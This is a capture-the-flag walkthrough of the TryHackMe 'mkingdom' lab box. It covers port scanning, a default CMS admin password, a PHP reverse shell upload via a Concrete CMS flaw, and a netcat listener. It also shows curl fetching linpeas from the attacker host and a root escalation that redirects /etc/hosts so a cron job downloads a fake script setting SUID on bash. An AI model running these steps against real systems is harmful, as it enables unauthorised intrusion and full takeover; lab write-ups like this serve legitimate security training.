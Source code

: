 ```yaml
---
layout: post
title:  "TryHackMe: mkingdom"
description: Beginner-friendly box inspired by a certain mustache man.
date:   2024-07-08 11:43:59 +0100
categories: jekyll update
---
```


# mkingdom :
```sh
export IP= M-ip
```
# Enumeration:

I found the Port 85 referring to HTTP instead of 80.

```sh
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-20 18:42 EDT
Scanning 10.10.198.213 [4 ports]
Nmap scan report for 10.10.198.213
Host is up, received echo-reply ttl 63 (0.092s latency).
Scanned at 2024-09-20 18:42:40 EDT for 13s
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
85/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0H N0! PWN3D 4G4IN

NSE: Script Post-scanning.
Completed NSE at 18:42, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:42
Completed NSE at 18:42, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.78 seconds
           Raw packets sent: 1037 (45.604KB) | Rcvd: 1008 (40.312KB)
```
 
# Directory bruteforcing:

I found his /app directory that contain the web app with the concrete cms 8.5.2, this version has a CVE-2020-11476.

```sh
gobuster dir --url http://10.10.198.213:85/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
```sh
/app                  (Status: 301) [Size: 314] [--> http://10.10.198.213:85/app/]
```

![Screenshot_1](https://github.com/user-attachments/assets/4f368621-4827-4a50-977b-623e5a3b9cf6)

I checked the Blog to see if i can find some users .

![Screenshot_2](https://github.com/user-attachments/assets/2604c4b7-bae8-429e-bc76-78ef13368784)

I found this user 

![Screenshot_3](https://github.com/user-attachments/assets/3bd15567-9cb4-4f04-8508-c8d179095415)

I attempted some default passwords for the 'admin' user, and it turns out the password is simply 'password'.

![Screenshot_9](https://github.com/user-attachments/assets/8bc6a101-ba04-4266-802f-d4ee6a561831)

As previously mentioned, Concrete CMS version 8.5.2 has a vulnerability that allowed me to add an extension, enabling the upload of PHP file types to the machine.

![Screenshot_4](https://github.com/user-attachments/assets/97b5b439-0527-4a2c-84a9-bc248cb2f7ff)
![Screenshot_5](https://github.com/user-attachments/assets/0e70e322-77f6-4f0b-a804-66bfa7bf1c61)

I successfully uploaded a PHP reverse shell to the target machine and obtained the IP address needed to execute it.

![Screenshot_6](https://github.com/user-attachments/assets/fa29c9fc-e852-459c-bfe7-f8a408e90060)
![Screenshot_7](https://github.com/user-attachments/assets/17ba45cc-0a26-431f-9ddf-8b394456760c)

# Initial access :
```sh
 nc -lvnp 9999   
```                       
```sh
listening on [any] 9999 ...
connect to [10.9.0.17] from (UNKNOWN) [10.10.198.213] 55916
Linux mkingdom.thm 4.4.0-148-generic #174~14.04.1-Ubuntu SMP Thu May 9 08:17:37 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 19:05:35 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),1003(web)
```
I used linpeas to enumerate the machine 

```sh
Attacker Machine
python3 -m http.server 80
Victim Machine
curl http://attackerIP/linpeas.sh -o linpeas.sh 
./linpeas.sh
```
While inspecting the application configuration for Concrete CMS version 8.5.2, I discovered the password for the user 'toad' stored in the configuration file.

![Screenshot_11](https://github.com/user-attachments/assets/0720af85-e3b0-4c3b-9f2e-d7058ef7685d)

After extensive enumeration, I discovered that the password for the user 'mario' is stored within the environment variables.

![Screenshot_12](https://github.com/user-attachments/assets/265fc5aa-47c5-4814-ab52-d1be3675cd12)

```sh
echo 'aWthVGVOVEFOdEVTCg==' |base64 -d                         
ikaTeNTANtES   => mario password
```
I used pspy to snoop on processes without need for root permissions, by doing this i got this running crons.

![Screenshot_13](https://github.com/user-attachments/assets/45810ebc-b52a-485e-ae94-cfbf8bb7b56e)

/bin/cat has SUID permissions, meaning it can be executed with the privileges of the file owner (likely root).
/etc/hosts is owned by the user mario
![Screenshot_14](https://github.com/user-attachments/assets/d8fc746c-8ac9-4db3-b6aa-8ccd89de4b98)
![Screenshot_15](https://github.com/user-attachments/assets/296423a4-e5f0-4bfa-8996-4d0855d6766b)

I replaced the localhost ip with our vpn ip to use it further.

```sh
awk '{gsub("127.0.1.1\tmkingdom.thm", "AttackerIP\t\tmkingdom.thm"); print}' /etc/hosts > /tmp/replace_hosts
```
I then utilized the SUID-enabled /bin/cat to write the contents of /tmp/replace_hosts to /etc/hosts, resulting in the file being modified to look like this:

```sh
mario@mkingdom:~$ cat /tmp/replace_hosts  > /etc/hosts
mario@mkingdom:~$ cat /etc/hosts
127.0.0.1	localhost
AttackerIP		mkingdom.thm
127.0.0.1	backgroundimages.concrete5.org
127.0.0.1       www.concrete5.org
127.0.0.1       newsflow.concrete5.org

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnod
```

Since counter.sh is executed automatically via cron, we could manipulate it to run commands of our choice.
With write access to /etc/hosts, we can modify entries to redirect network requests or disrupt normal hostname resolution.
The /etc/cat file, with SUID permissions, allows us to execute it as the file owner (likely root), which can be exploited to read or manipulate sensitive files.

1. Create a counterfeit directory on the attacker machine:
We will replicate the directory structure where counter.sh is located on the victim machine inside the /tmp directory on our attacker machine. This will allow us to host our counterfeit version of counter.sh.
```sh
mkdir -p /tmp/app/castle/application
vim /tmp/app/castle/application/counter.sh
```

```sh

#! /usr/bin/env bash

chmod 4755 /bin/bash
```

2. Host a fake script using Python's HTTP server:
Using Python’s http.server, we can set up a simple web server on the same port that the victim machine is likely to connect to. This will trick the victim into downloading our malicious script instead of the original one.

```sh
sudo python3 -m http.server 85 --direcotry /tmp
```

3. Replace the real counter.sh on the victim machine:
By getting the cron job to download our counterfeit script from our attack machine, we can replace the original counter.sh with our own, gaining control over what commands it executes when the cron job runs.

![Screenshot_16](https://github.com/user-attachments/assets/c2d228f2-4497-4e77-b84e-a5839a271836)

Gaining root access 

![Screenshot_17](https://github.com/user-attachments/assets/b7c08f9e-2f85-4f16-b9a1-ac1bf4ba3a3c)
